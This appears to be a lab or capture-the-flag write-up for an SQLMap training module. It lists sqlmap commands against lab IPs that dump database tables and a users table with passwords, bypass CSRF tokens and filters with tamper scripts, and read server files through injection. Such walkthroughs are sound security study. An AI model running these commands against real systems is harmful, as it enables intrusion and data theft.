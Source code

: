 # SQLMAP Essentials

## Building Attacks

### Running SQLMap in an HTTP Request

What's the contents of table flag2? (Case #2)

What's the contents of table flag3? (Case #3)

What's the contents of table flag4? (Case #4)

### Attack Tuning

What's the contents of table flag5? (Case #5)

`sqlmap -u "http://94.237.62.195:42450/case5.php?id=1" --level 5 --risk 3 --batch --tables --dump`

<figure><img src=".gitbook/assets/image (120).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag6? (Case #6)

``sqlmap -u "http://94.237.62.195:42450/case6.php?col=id" --prefix '`)' --batch --dump -D testdb -T flag6``

<figure><img src=".gitbook/assets/image (121).png" alt=""><figcaption></figcaption></figure>

What's the contents of table flag7? (Case #7)

* UNION snenanigans

`sqlmap -u "http://94.237.62.195:42450/case7.php?id=1" -v --level 5 --risk 3 --dump`

## Database Enumeration

### DB Enum

`sqlmap -u "http://83.136.250.104:37078/case1.php?id=1" --dump -T flag1 -D testdb`

<figure><img src=".gitbook/assets/image (122).png" alt=""><figcaption></figcaption></figure>

### Advanced DB Enum

**What's the name of the column containing "style" in it's name? (Case #1)**

`sqlmap -u "http://83.136.250.104:41060/case1.php?id=1" --search -C style`

<figure><img src=".gitbook/assets/image (123).png" alt=""><figcaption></figcaption></figure>

**What's the Kimberly user's password? (Case #1)**

`sqlmap -u "http://83.136.250.104:41060/case1.php?id=1" --search -C pass`

<figure><img src=".gitbook/assets/image (126).png" alt=""><figcaption></figcaption></figure>

`sqlmap -u "http://83.136.250.104:41060/case1.php?id=1" --dump -D testdb -T users`

<figure><img src=".gitbook/assets/image (127).png" alt=""><figcaption></figcaption></figure>

## Advanced SQLMap Usage

### Bypassing Web Application Protections

**What's the contents of table flag8? (Case #8)**

<figure><img src=".gitbook/assets/image (128).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (129).png" alt=""><figcaption><p>obtaining CSRF token called "t0ken"</p></figcaption></figure>

`sqlmap -u "http://83.136.253.251:30281/case8.php" --data="id=1&t0ken=i1wNIQj9yhLrLc36S0yoc0ZV5mybfRaN08Uy7loZj8" --level 5 --risk 3 --csrf-token="t0ken" -v -T flag8 --dump`

<figure><img src=".gitbook/assets/image (130).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag9? (Case #9)**

<figure><img src=".gitbook/assets/image (131).png" alt=""><figcaption></figcaption></figure>

<figure><img src=".gitbook/assets/image (132).png" alt=""><figcaption><p>obtaining UID</p></figcaption></figure>

`sqlmap -u "http://83.136.253.251:30281/case9.php?id=1&uid=1545767805" --randomize=uid --batch -v 5 -T flag9 --dump`

<figure><img src=".gitbook/assets/image (133).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag10? (Case #10)**

<figure><img src=".gitbook/assets/image (134).png" alt=""><figcaption></figcaption></figure>

**What's the contents of table flag11? (Case #11)**

<figure><img src=".gitbook/assets/image (135).png" alt=""><figcaption><p>Tamper-scripts to bypassing chars by replacing them...</p></figcaption></figure>

<figure><img src=".gitbook/assets/image (136).png" alt=""><figcaption></figcaption></figure>

### OS Exploitation

<figure><img src=".gitbook/assets/image (137).png" alt=""><figcaption></figcaption></figure>

**Try to use SQLMap to read the file "/var/www/html/flag.txt".**

`sqlmap -u "http://83.136.251.235:51941/?id=1" --file-read "var/www/html/flag.txt"`

<figure><img src=".gitbook/assets/image (138).png" alt=""><figcaption></figcaption></figure>

**Use SQLMap to get an interactive OS shell on the remote host and try to find another flag within the host.**

<figure><img src=".gitbook/assets/image (139).png" alt=""><figcaption></figcaption></figure>

## Skills Assessment

**What's the contents of table final\_flag?**

Okay so, burpsuite, playing around with the shopping items and adding to cart registered the post request. Do the old save to a text file.

Add the old ‘-p id’ which we got from the POST request and our ‘common’ between tamper script we do some quick ‘-D’ database enumeration to tell us it’s in the production database and our database management system is MySql and it’s technique T (Time-Based boolean) we get the above flag.

`sqlmap -u "http://94.237.63.93:46078" -p 'id' --tamper=between -T final_flag -D production --dump --dbms=MySql --technique=T`

<figure><img src=".gitbook/assets/image (140).png" alt=""><figcaption></figcaption></figure>
